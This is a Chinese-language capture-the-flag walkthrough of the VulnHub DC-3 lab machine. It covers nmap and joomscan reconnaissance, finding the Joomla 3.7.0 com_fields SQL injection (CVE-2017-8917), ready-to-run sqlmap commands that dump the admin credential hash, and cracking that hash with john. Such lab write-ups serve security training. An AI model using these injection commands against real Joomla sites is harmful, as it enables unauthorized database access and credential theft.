

<center>DC-3</center>


[toc]


## DC-3

> vulnhub： [dc-3](https://www.vulnhub.com/entry/dc-32,312/)


### 1. 信息搜集

> kali 和 靶机都在同一个网络。

1. 扫描靶机ip和端口

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-22 06:33 EST
Nmap scan report for desktop-goer (172.16.168.1)
Host is up (0.00036s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 172.16.168.2
Host is up (0.00020s latency).
MAC Address: 00:50:56:FC:66:6C (VMware)
Nmap scan report for 172.16.168.132
```

```shell
#靶机端口
nmap -p- 172.16.168.132 -A 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:EA:AF:4F (VMware)
```

> 收集到ip和开放的端口。
>
> 访问： `ip:80`


2. 前端页面收集

> `wappalyzer` 插件。



> Joomal: [joomal](https://www.joomla.org/) 建站CMS

```shell
# joomal 专门的扫描工具 joomscan
# 安装
apt install joomscan

# 使用
joomscan -U http://172.16.168.132/
```

```shell
[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://172.16.168.132/administrator/components
http://172.16.168.132/administrator/modules
http://172.16.168.132/administrator/templates
http://172.16.168.132/images/banners


[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://172.16.168.132/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config files are not found
```

> 版本： `Joomla 3.7.0` 和 一些其他站点。


### 2. 搜索漏洞

> 版本： `Joomla 3.7.0` 

```shell
searchsploit joomla 3.7.0

Joomla! 3.7.0 - 'com_fields' SQL Injection                      php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting   php/webapps/43488.txt
```

> 使用漏洞

```shell
# sql注入漏洞  php/webapps/42033.txt  查看漏洞信息
searchsploit -p 42033

# 详细信息
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt

# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

```shell
# 1 攻击 换成你的url
sqlmap -u "http://172.16.168.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

# 数据库信息
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys

# 2 指定数据库，获取表名
sqlmap -u "http://172.16.168.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables

# 3. dump #__users表列名
sqlmap -u "http://172.16.168.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns

# 4. dump #__users表数据 
sqlmap -u "http://172.16.168.132/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password -dump
```

```shell
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+----------+--------------------------------------------------------------+
```

> 解密 password

```shell
touch pass.txt

john --show pass.txt

?:snoopy # snoopy 密码
```

> 用户名和密码： `admin`  `snoopy`

